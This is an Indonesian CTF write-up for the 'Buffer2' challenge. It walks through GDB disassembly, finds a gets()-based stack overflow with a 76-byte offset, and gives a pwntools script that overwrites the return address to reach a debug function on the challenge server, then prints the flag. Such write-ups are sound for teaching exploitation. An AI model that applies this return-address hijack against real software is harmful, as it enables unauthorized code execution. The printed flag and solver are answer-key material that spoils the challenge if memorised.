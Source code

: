 # Write Up Asgama CTF Buffer2 [75 pts]

Kategori : Binary Exploitation

Diberikan File ELF 32-bit not stripped.
Command : ```file buf2```
```
xnor@zeroday:~/AsgamaCTF/WriteUp$ file buf2 
buf2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=422a2c2391911b03f182ed6a8a2b65ca200f276c, not stripped
```
Oke, langsung lihat disassemble fungsi ```main``` dengan GDB+Peda.

Fungsi ```main```:
```
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x0804855d <+0>:	lea    ecx,[esp+0x4]
   0x08048561 <+4>:	and    esp,0xfffffff0
   0x08048564 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048567 <+10>:	push   ebp
   0x08048568 <+11>:	mov    ebp,esp
   0x0804856a <+13>:	push   ecx
   0x0804856b <+14>:	sub    esp,0x4
   0x0804856e <+17>:	call   0x8048545 <hah>
   0x08048573 <+22>:	sub    esp,0xc
   0x08048576 <+25>:	push   0x8048623
   0x0804857b <+30>:	call   0x80483a0 <puts@plt>
   0x08048580 <+35>:	add    esp,0x10
   0x08048583 <+38>:	mov    eax,0x0
   0x08048588 <+43>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804858b <+46>:	leave  
   0x0804858c <+47>:	lea    esp,[ecx-0x4]
   0x0804858f <+50>:	ret    
End of assembler dump. 
```
Ternyata fungsi ```main``` memanggil fungsi ```hah``` Yang menggunakan ```gets``` untuk mengambil inputan, sedangkan ```gets``` sendiri memiliki vulnerable yang sangat berbahaya, sehingga kita bisa mengubah return address ke fungsi tujuan kita untuk mendapat flag.

Fungsi ```hah```:
```
gdb-peda$ pdisas hah
Dump of assembler code for function hah:
   0x08048545 <+0>:	push   ebp
   0x08048546 <+1>:	mov    ebp,esp
   0x08048548 <+3>:	sub    esp,0x48
   0x0804854b <+6>:	sub    esp,0xc
   0x0804854e <+9>:	lea    eax,[ebp-0x48]
   0x08048551 <+12>:	push   eax
   0x08048552 <+13>:	call   0x8048390 <gets@plt>
   0x08048557 <+18>:	add    esp,0x10
   0x0804855a <+21>:	nop
   0x0804855b <+22>:	leave  
   0x0804855c <+23>:	ret    
End of assembler dump.
```

Variable ```gets``` Hanya diberi size sebesar 0x48 atau 72 dalam desimal. Sehingga jarak antara offset sampai return address adalah ```72 + 4 = 76```. 4 disitu adalah jumlah 1 register 32 bit.
Oke, karena kita sudah dapat offset nya sekarang cari address tujuan kita yaitu fungsi ```debug```.
Untuk mencari address ```debug```, kita bisa gunakan objdump.
Command : ```objdump -D buf2 | grep debug```
```
xnor@zeroday:~/AsgamaCTF/WriteUp$ objdump -D buf2 | grep debug
0804851c <debug>:
```
Address debug : ```0x0804851c``` tapi harus dijadiin little endian dulu. Jadi : ```\x1c\x85\x04\x08``` atau bisa pake fungsi yang ada di pwntools.
Mantap, langsung aja buat solver nya. (Pake pwntools biar rapi wkwk)

```solver.py```
```
from pwn import *

#r = process("./buf2")
r = remote("asgama.web.id", 40202)
offset = 76
debug = p32(0x0804851c)
payload = "A"*offset + debug

r.send(payload)
r.interactive()
```
Result :
```
xnor@zeroday:~/AsgamaCTF/WriteUp$ python solver.py 
[+] Opening connection to asgama.web.id on port 40202: Done
[*] Switching to interactive mode
$ 
$ ls
buf2
flag
$ cat flag
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}
$
[*] Closed connection to asgama.web.id port 40202
```

Flag : ```GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}```

Note : Untuk melihat fungsi bisa dengan GDB dengan command ```info functions``` atau ```i func```.
